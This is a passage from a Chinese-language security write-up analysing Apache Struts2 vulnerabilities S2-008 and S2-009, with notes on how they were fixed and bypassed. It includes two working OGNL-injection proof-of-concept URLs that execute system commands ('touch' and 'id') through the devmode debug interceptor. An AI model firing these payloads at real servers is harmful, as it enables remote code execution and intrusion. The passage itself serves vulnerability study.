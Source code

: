 可简单执行命令的PoC如下：
```
/devmode.action?debug=command
&expression=(%23_memberAccess.allowStaticMethodAccess=true,@java.lang.Runtime@getRuntime().exec('touch%20/tmp/success2'))
```

### vuln-2：可回显PoC

因为`DebuggingInterceptor`会把表达式的计算结果返回，所以这里就没有必要获取`response`对象了：

```
/devmode.action?debug=command
&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23br=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(%23ret.getInputStream())),%23res=new%20char[20000],%23br.read(%23res),new%20java.lang.String(%23res))
```

<img src="pic/struts2_s2-008_8.png">

## 漏洞修复

后续的版本中，并没有对拦截器`DebuggingInterceptor`中的代码进行修复，因为就该调试功能本身而言，并不是漏洞。所以后续的修复主要是针对`SecurityMemberAccess`的代码进行改进，增强安全性。


<a name="s2-009"></a>
## S2-009

官方漏洞公告：
https://cwiki.apache.org/confluence/display/WW/S2-009

影响版本：Struts 2.0.0 - Struts 2.3.1.1

## 漏洞复现与分析

`S2-009`是`S2-005`的修复绕过，而且绕过的方法很巧妙。(btw,`S2-003`/`S2-005`/`S2-009`都是当时Google安全团队的`Meder Kydyraliev`报告的)

>在调试分析这些老漏洞的过程，其实也是在观摩安全人员和开发人员之间的对抗过程，挺有趣的)

前面分析过`S2-003`/`S2-005`漏洞可以知道，现在为了防止请求参数名中的OGNL表达式执行，主要做了以下两点：
- 添加了类`SecurityMemberAccess`，且其属性`allowStaticMethodAccess`默认为`false`，来防止利用OGNL表达式去执行Java方法；
- 在拦截器`ParametersInterceptor`中对请求参数名进行正则表达式白名单字符的匹配，来防止特殊符号(比如：`#`符号)经过unicode编码后的绕过。
